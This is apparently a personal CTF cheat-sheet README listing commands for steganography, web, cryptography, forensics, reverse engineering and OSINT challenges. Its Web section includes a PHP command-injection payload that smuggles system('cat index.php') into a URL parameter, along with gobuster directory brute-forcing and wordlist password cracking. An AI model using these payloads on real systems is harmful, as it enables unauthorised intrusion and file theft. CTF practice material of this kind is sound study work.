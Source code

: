 # CTF 2.0
- [Hints](/CTF/Important.md)
- [Steganography](#stenography)
  - [Steganography audio](#stenographyaudio)
- [Web](#web)
- [Cryptography](#crypto)
- [Forensics](#forensics)
- [Reverse Engineering](#rev)
- [OSINT](#osint)
- [PWD](#pwd)

## Steganography <a name="stenography"></a>

- ```file image.png```
- - ```strings image.png```
- ```steghide --extract -sf image.jpg -p <password>```
- ```stegcracker imag.png /usr/share/wordlists/rockyou.txt```
- ```pngcheck image.png```
  - If you are getting error then use below command
  - __`foremost image.png` ---> to recover the original image__
- ```sudo apt install libimage-exiftool-perl -y```
  - ```exiftool image.png```
- `exiv2 file` : shows the metadata of the given file
  - ```eog image.png```
- ```xxd image.png```
  - if you see IEND chunk in exiftool use this command.
- ```find | xargs cat | grep "find"``` //if you have lot of text file then you this
  - ```grep -rni "flag{.*}"```
- Download the stegsolve.jar in any GitHub
  - ```java -jar stegsolve.jar```
  - make sure that you give the permission. 
- [ZXing Decoder](https://zxing.org/w/decode.jspx)
  - If the image is QR code image
- ```sudo apt install ruby```
  - ```sudo gem install zsteg```
  - ```zsteg image.png``` or ```zsteg  -a image.png``` or `zsteg -E image.png`
  - only for png image.
- ```binwalk -e image.png```
  - ```binwalk --dd = ".*" image.png```
- ```outguess -r image.png flag.txt```
  - for the LSB.
- For the noice image
  - go to --> [online](https://piellardj.github.io/stereogram-solver)
- one more for the LSB.
  - go to ---> [jsteg](https://github.com/lukechampine/jsteg) (clone it!!)
  - open the file
  - run this command ```go run cmd/jsteg/main.go reveal ~/Desktop/image.jpg```
- [Unicode](https://330k.github.io/misc_tools/unicode_steganography.html) 
  - zero width space
- Use ```GIMP``` to work with QR dots
- ```otfinfo -i font.ttf``` for file.ttf
- ```zbarimg image.png``` to read the qr code
- redacted text (cover with block) in a given pdf
  - ```pdftotext file.pdf``` or ```pdftohtml  file.pdf```
- suspicious space and tabs in a given text file
  - __[python](https://github.com/Chittu13/All_in_one/blob/main/CTF/Codes/space.md)__ script to extract and convert from binary to ASCII and get  the flag.

## Steganography audio <a name="stenographyaudio"></a>
- [Morsecode](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)
- [stegolsb](https://github.com/ragibson/Steganography.git)
  - If the audio is related to LSB
  - ```cd Steganography```
  - give the permission
  - ```python3 setup.py install```
 __WavstegPermalink__
- __WavSteg is a python3 tool that can hide data and files in wav files and can also extract data from wav files.
You can get it from [github](https://github.com/ragibson/Steganography.git)__
Useful commands:
- `python3 WavSteg.py -r -s soundfile -o outputfile` : extracts data from a wav sound file and outputs the data into a new file
  
  - ```stegolsb wavsteg -r -i file.wav -o flag.txt -n 2 -b 1000```




## Web <a name="web"></a>
- ```http://127.0.0.1:808/index.php?page=' and die(system("cat index.php")) or ' ```
  - if you want to read the index.php use this payload in the url "    ' and die(system("cat index.php")) or ' "
- ```curl -X POST --data hash=2196812e91c29df34f5e217cfd639881 "http://example.com:8080/admin.php"```
  - you use this if you found hash in the sorce page
- ```wget -m http://example.com:8080/```
  - here it will download the all the file in the website
  - ```grep -R "CTF{.*}"``` use this commond after download the all files
- ```gobuster dir -k -u http://127.0.0.1/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,cnf,conf```
- ```gobuster dir -w /usr/share/wordlists/dirb/common.txt -x .html,.php -u http://192.168.51.11/```

## Cryptography <a name="crypto"></a>
1. This is [Hill Cipher](https://www.dcode.fr/hill-cipher), see how it works or use an online decoder
   - __[Reference](https://github.com/Chittu13/All_in_one/tree/main/CTF/cryptography/hill.md)__

2. Replace small letters with A, capital letters with B
    - ```BA BAAB AAABABAAAAABB AAA BBBBAA BBABAAA BA ABBABAAAB AABAAAA AB AAAAAA AABABB BBAABBABBAABA```
    - [bacon-cipher](https://www.dcode.fr/bacon-cipher)
## Forensics <a name="forensics"></a>
- [outer space audio](https://github.com/colaclanth/sstv.git)
  - ```sudo python3 setup.py install```
  - ```sstv -d file.wav -o result.png```
  - if the hit is related about SSTV(slow scan TV)
- ```strings flag.zip | grep -i cit | sort | uniq -u```
  - Given zip file was numerous directories with a flag.txt
- A simple script to converts the RGB values of each pixel into characters
  - [Script](https://github.com/Chittu13/All_in_one/tree/main/CTF/Codes)
## Reverse Engineering <a name="rev"></a>
- ```ltrace ./filename```
  - The file is executable_file so we use ./filename
- ```strace ./filename```
- [ghidra](https://github.com/NationalSecurityAgency/ghidra/releases)
  - Download the zip file from the above line```hidra_11.0.3_PUBLIC_20240410.zip```
- ```objbump -d executablefile``` it will show the assembly code of the file

## OSINT <a name="osint"></a>
- To find the user in the internet use this tool called [sherlock](https://github.com/Chittu13/All_in_one/blob/main/CTF/Tools/sherlock.md)

## PWD <a name="pwd"></a>


